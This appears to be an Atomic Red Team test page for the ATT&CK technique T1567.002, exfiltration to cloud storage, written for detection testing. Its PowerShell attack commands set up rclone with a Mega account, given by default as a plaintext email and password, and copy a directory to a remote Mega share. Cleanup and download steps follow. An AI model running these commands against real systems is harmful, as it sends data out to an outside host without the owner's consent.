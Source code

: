 # T1567.002 - Exfiltration Over Web Service: Exfiltration to Cloud Storage
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/002)
<blockquote>Adversaries may exfiltrate data to a cloud storage service rather than over their primary command and control channel. Cloud storage services allow for the storage, edit, and retrieval of data from a remote cloud storage server over the Internet.

Examples of cloud storage services include Dropbox and Google Docs. Exfiltration to these cloud storage services can provide a significant amount of cover to the adversary if hosts within the network are already communicating with the service. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)](#atomic-test-1---exfiltrate-data-with-rclone-to-cloud-storage---mega-windows)


<br/>

## Atomic Test #1 - Exfiltrate data with rclone to cloud Storage - Mega (Windows)
This test uses rclone to exfiltrate data to a remote cloud storage instance. (Mega)
See https://thedfirreport.com/2022/06/16/sans-ransomware-summit-2022-can-you-detect-this/

**Supported Platforms:** Windows


**auto_generated_guid:** 8529ee44-279a-4a19-80bf-b846a40dda58





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| rclone_path | Directory of rclone.exe | Path | $env:temp&#92;T1567.002&#92;rclone-v*&#92;|
| rclone_config_path | Path to rclone's config file (default should be fine) | path | $env:appdata|
| dir_to_copy | Directory to copy | String | $env:temp&#92;T1567.002|
| mega_user_account | Mega user account | String | atomictesting@outlook.com|
| mega_user_password | Mega user password | String | vmcjt1A_LEMKEXXy0CKFoiFCEztpFLcZVNinHA|
| remote_share | Remote Mega share | String | T1567002|


#### Attack Commands: Run with `powershell`! 


```powershell
New-Item #{rclone_config_path}\rclone -ItemType directory
New-Item #{rclone_config_path}\rclone\rclone.conf
cd #{rclone_path}
.\rclone.exe config create #{remote_share} mega
set-Content #{rclone_config_path}\rclone\rclone.conf "[#{remote_share}] `n type = mega `n user = #{mega_user_account} `n pass = #{mega_user_password}"
.\rclone.exe copy --max-size 1700k #{dir_to_copy} #{remote_share}:test -v
```

#### Cleanup Commands:
```powershell
cd #{rclone_path}
.\rclone.exe purge #{remote_share}:test
.\rclone.exe config delete #{remote_share}:
Remove-Item #{rclone_config_path}\rclone -recurse -force -erroraction silentlycontinue
cd c:\
Remove-Item $env:temp\rclone.zip
Remove-Item $env:temp\T1567.002 -recurse -force
```



#### Dependencies:  Run with `powershell`!
##### Description: rclone must exist at (#{rclone_path})
##### Check Prereq Commands:
```powershell
if (Test-Path #{rclone_path}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
Invoke-WebRequest "https://downloads.rclone.org/rclone-current-windows-amd64.zip" -OutFile $env:temp\rclone.zip
Expand-archive -path $env:temp\rclone.zip -destinationpath $env:temp\T1567.002\ -force
```




<br/>
